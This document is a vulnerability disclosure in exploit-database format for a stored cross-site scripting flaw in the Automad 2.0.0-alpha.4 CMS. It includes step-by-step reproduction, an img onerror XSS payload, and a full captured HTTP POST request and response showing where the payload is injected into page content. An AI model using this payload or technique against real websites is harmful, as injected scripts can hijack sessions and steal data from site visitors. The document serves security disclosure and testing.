 # Exploit Title: Stored Cross-Site Scripting (XSS) - Automad 2.0.0-alpha.4
# Date: 20-06-2024
# CVE: N/A (Awaiting ID to be assigned)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://automad.org
# Software Link: https://github.com/marcantondahmen/automad
# Category: Web Application [Flat File CMS]
# Version: 2.0.0-alpha.4
# Tested on: Docker version 26.1.4, build 5650f9b | Debian GNU/Linux 11 (bullseye)

# Description

A persistent (stored) cross-site scripting (XSS) vulnerability has been identified in Automad 2.0.0-alpha.4. This vulnerability enables an attacker to inject malicious JavaScript code into the template body. The injected code is stored within the flat file CMS and is executed in the browser of any user visiting the forum. This can result in session hijacking, data theft, and other malicious activities.

# Proof-of-Concept

**Step-1**: Login as Admin & Navigate to the endpoint http://localhost/dashboard/home

**Step-2**: There will be a default Welcome page. You will find an option to edit it.

**Step-3:** Navigate to Content tab or http://localhost/dashboard/page?url=%2F&section=text & edit the block named ***`Main`***

**Step-4:** Enter the XSS Payload - `<img src=x onerror=alert(1)>`

***Request:***  
```
POST /_api/page/data HTTP/1.1
Host: localhost
Content-Length: 1822
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHmXQBdtZsTYQYCv
Accept: */*
Origin: http://localhost
Referer: http://localhost/dashboard/page?url=%2F&section=text
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Automad-8c069df52082beee3c95ca17836fb8e2=d6ef49301b4eb159fbcb392e5137f6cb
Connection: close

------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__csrf__"

49d68bc08cca715368404d03c6f45257b3c0514c7cdf695b3e23b0a4476a4ac1
------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__json__"

{"data":{"title":"Welcome","+hero":{"blocks":[{"id":"KodzL-KvSZcRyOjlQDYW9Md2rGNtOUph","type":"paragraph","data":{"text":"Testing for xss","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"bO_fxLKL1LLlgtKCSV_wp2sJQkXAsda8","type":"paragraph","data":{"text":"&lt;h1&gt;XSS identified by Jerry&lt;/h1&gt;","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"},"+main":{"blocks":[{"id":"lD9sUJki6gn463oRwjcY_ICq5oQPYZVP","type":"paragraph","data":{"text":"You have successfully installed Automad 2.<br><br>&lt;img src=x onerror=alert(1)&gt;<br>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"NR_n3XqFF94kfN0jka5XGbi_-TBEf9ot","type":"buttons","data":{"primaryText":"Visit Dashboard","primaryLink":"/dashboard","primaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingVertical":"0.5rem","paddingHorizontal":"1.5rem"},"primaryOpenInNewTab":false,"secondaryText":"","secondaryLink":"","secondaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingHorizontal":"1.5rem","paddingVertical":"0.5rem"},"secondaryOpenInNewTab":true,"justify":"start","gap":"1rem"},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"}},"theme_template":"project","dataFetchTime":"1718911139","url":"/"}
------WebKitFormBoundaryzHmXQBdtZsTYQYCv--
```
***Response:***  

```
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Thu, 20 Jun 2024 19:17:35 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/8.3.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30`

{"code":200,"time":1718911055}
```

**Step-5:** XSS triggers when you go to homepage - http://localhost/


# Video Poc
``` 
Link - https://drive.google.com/file/d/10BVQKYo2H1-Nx3FOGteL2xww4lbZ3xlS/view?usp=sharing
```
